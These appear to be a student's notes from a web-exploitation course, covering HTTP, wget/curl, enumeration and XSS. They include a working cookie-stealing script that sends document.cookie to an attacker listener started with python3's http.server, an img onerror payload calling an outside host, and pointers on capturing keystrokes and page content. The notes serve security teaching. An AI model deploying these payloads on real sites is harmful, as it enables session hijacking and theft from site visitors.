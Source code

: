 ## web-exploitation.html ##  ## BURP SWEEP??? ##
----------------------------------------------------------
*slide deck notes*

Server/Client Relationship
Synchronous communications between user and services

Not all data is not returned, client only receives what is allowed 

Request/Response:: Various tools to view:: tcpdump  wireshark  Developer Console

HTTP Methods:: A Select Few: GET POST HEAD PUT  https://tools.ietf.org/html/rfc2616

HTTP Fields:: User-Agent  Referer  Cookie  Date  Server  Set-Cookie

http://10.50.x.x/path/pathdemo.php?myfile=demo1 <<< change 1 to another number to interact with the webpage 

Wget 
-------
wget -r -l2 -P /tmp ftp://ftpserver/

wget --save-cookies cookies.txt --keep-session-cookies --post-data 'user=1&password=2' https://website

wget --load-cookies cookies.txt -p https://website/interesting/article.php

curl 
----
Supports more protocols vs Wget, such as SCP & POP3

curl 'https://web.site/submit.php' -H 'Cookie: name=123; settings=1,2,3,4,5,6,7' --data 'name=Stan' | base64 -d > item.png


JavaScript (JS)
---------------------
Coded as .JS files, or in-line of HTML

<script>
function myFunction() {
    document.getElementById("demo").innerHTML = "Paragraph changed.";
}
</script>

<script src="https://www.w3schools.com/js/myScript1.js"></script>


Enumeration
--------------------------
ROBOTS.TXT  Legitimate surfing 

Tools:: NSE scripts  Nikto  Burp suite (outside class)

**/var/www/html ** how many directories start here 


Cross-Site Scripting (XSS) Overview
-------------------------------------
Insertion of arbitrary code into a webpage, that executes in the browser of visitors

Unsanitized GET, POST, and PUT methods allow JS to be placed on websites

Often found in forums that allow HTML

Reflected XSS
-------------------
Below is what you see, but the server will decode as name=abc123
http://example.com/page.php?name=dXNlcjEyMw


Stored XSS
-----------------------
<img src="http://invalid" onerror="window.open('http://10.50.XX.XX:8000/ram.png','xss','height=1,width=1');">


Useful JavaScript Components
------------------------------
<script>alert('XSS');</script>

## python3 -m http.server ##

this creates a hole for information to go into when i inject the below script 

## <script>document.location="http://10.50.29.68:8000/"+document.cookie;</script> ##

^^^^^ input this into a body function ^^^^

Capturing Cookies

document.cookie

Capturing Keystrokes

bind KEYDOWN and KEYUP

Capturing Sensitive Data

document.body.innerHTML

use this then 

take the cookie and put it here 


Capturing Cookies :: document.cookie

